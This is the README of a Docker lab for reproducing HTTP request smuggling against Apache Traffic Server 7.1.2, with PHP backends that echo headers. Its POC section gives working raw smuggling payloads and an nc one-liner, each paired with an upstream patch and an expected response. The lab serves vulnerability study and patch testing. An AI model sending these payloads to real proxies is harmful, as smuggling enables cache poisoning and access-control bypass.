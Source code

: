 #	LAB2

##	Composition

1.Apache Traffic Server 7.1.2

2.mattrayner/lamp:latest-1804

3.fbraz3/lnmp:7.1

```
                        +---[8080]---+
                        | 9010->8080 |
                        |    ATS7    |
                        |            |
                        +---+---+----+
                 [lamp.com] |   | [lnmp.com]
                    +-------+   +-------+
                    |                   |
              +---[80]-----+     +---[80]-----+
              | 9011->80   |     | 9012->80   |
              |  LAMP      |     |  LNMP      |
              |            |     |            |
              +-----+------+     +----+-------+
```



LNMP index.php:

```php
<?php
echo 'This is Nginx<br>';
if (!function_exists('getallheaders')) {

    function getallheaders() {
        $headers = array();
        foreach ($_SERVER as $name => $value) {
            if (substr($name, 0, 5) == 'HTTP_') {
                $headers[str_replace(' ', '-', ucwords(strtolower(str_replace('_', ' ', substr($name, 5)))))] = $value;
            }
        }
        return $headers;
    }

}
var_dump(getallheaders());
$data = file_get_contents("php://input");
print_r($data);
```



LAMP index.php:

```php
<?php
echo 'This is LAMP:80<br>';
var_dump(getallheaders());
$data = file_get_contents("php://input");
print_r($data);
```



##	Usage

###	build

```bash
docker-compose up
```



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
HTTP/1.1 200 OK
</pre>HTTP/1.1 200 OK
HTTP/1.1 200 OK
```

4 HTTP code 200 means all right! 

Enjoy!



##	POC

###	First Patch

https://github.com/apache/trafficserver/pull/3192 

> Return 400 if there is whitespace after the field name and before the colon

Use burp or other tools to send this:

```http
GET / HTTP/1.1
Host: lnmp.com
Content-Length : 47

GET / HTTP/1.1
Host: lnmp.com
attack: 1
foo:
```

You will get response like this. **If not, you should try one more time.**

```http
HTTP/1.1 200 OK
Server: ATS/7.1.2
Date: Wed, 29 Apr 2020 10:50:00 GMT
Content-Type: text/html; charset=UTF-8
Age: 0
Connection: keep-alive
Content-Length: 385

This is Nginx<br>array(7) {
  ["Via"]=>
  string(87) "http/1.1 27ae0e316043[40950c2a-a8ce-4ecb-8781-48ee331e5c8e] (ApacheTrafficServer/7.1.2)"
  ["X-Forwarded-For"]=>
  string(10) "172.21.0.1"
  ["Foo"]=>
  string(14) "GET / HTTP/1.1"
  ["Attack"]=>
  string(1) "1"
  ["Host"]=>
  string(14) "linkedlnmp.net"
  ["Content-Length"]=>
  string(0) ""
  ["Content-Type"]=>
  string(0) ""
}

```

Explanation: https://paper.seebug.org/1049/#431-first-patch



###	Second Patch

https://github.com/apache/trafficserver/pull/3201

> Close the connection when returning a 400 error response

Use netcat to excute this.

```bash
printf 'GET / HTTP/1.1\r\n'\
'Host: lnmp.com\r\n'\
'aa: \0GET /2333 HTTP/1.1\r\n'\
'Host: lnmp.com\r\n'\
'\r\n'\
| nc 127.0.0.1 9010
```

You will get two 400 responses.

Explanation: https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/#toc8

https://paper.seebug.org/1049/#432-second-patch



###	Third Patch

https://github.com/apache/trafficserver/pull/3231

> 3231 Validate Content-Length headers for incoming requests

Use burp or other tools to send this:

```http
GET / HTTP/1.1
Host: lnmp.com
Content-Length:6
Transfer-Encoding: chunked

0

G
```

You will get response like this. **If not, you should try one more time.**

```http
HTTP/1.1 405 Not Allowed
Server: ATS/7.1.2
Date: Wed, 29 Apr 2020 11:19:42 GMT
Content-Type: text/html
Content-Length: 182
Age: 0
Connection: keep-alive

<html>
<head><title>405 Not Allowed</title></head>
<body bgcolor="white">
<center><h1>405 Not Allowed</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```



###	Fourth Patch

https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/#toc10

https://paper.seebug.org/1049/#434-fourth-patch



#	Reference

https://paper.seebug.org/1049/#42-test-environment